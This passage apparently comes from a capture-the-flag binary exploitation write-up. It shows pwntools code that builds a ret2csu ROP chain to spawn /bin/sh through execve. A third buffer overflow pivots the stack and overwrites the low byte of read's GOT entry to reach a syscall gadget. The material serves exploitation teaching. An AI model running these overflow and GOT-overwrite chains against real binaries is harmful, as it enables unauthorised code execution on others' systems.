 Then we can setup the chain to call _execve()_.

```python
buf = b"YYYYYYYY" #padding
#ret2csu
buf += p64(pops)
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(rw_section) #r12 -> RDI /bin/sh
buf += p64(0) #r13 = > rsi 0
buf += p64(0) #r14 => RDX
buf += p64(fini_ptr) #r15

buf += p64(ret2csu_gdg) #
buf += p64(0xcafebabe) # dummy add rsp + 0x8
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(0) #r12
buf += p64(0) #r13 
buf += p64(0) #r14 
buf += p64(0) #r15
buf += p64(elf.sym.read) #syscall execve()
buf += p64(0xdeadbeef) #just as breakpoint.
```

Finally we are ready to execute all of the above overflowing a third time with the below.

```python
#3
payload = b"A"*0x48

payload += p64(poprdi)
payload += p64(0)
payload += p64(poprsi)
payload += p64(elf.got.read)
payload += p64(0xcafebabe)
payload += p64(elf.sym.read)

payload += p64(0x401109) #pop rbp
payload += p64(rw_section)
payload += p64(leaveret) #pivot

sleep(1)
r.sendline(payload)

sleep(1)
r.send(b"\x8c")

```
Above, we call read again, but this time after sending the payload, we just overwrite the LSB of the read() function in _GOT_ with 0x8c, allowing us to call _syscall_ every time we call read at _plt_. Finally, we use the same _leave ret_ gadget to pivot to the 1st chain and start the whole process described above.
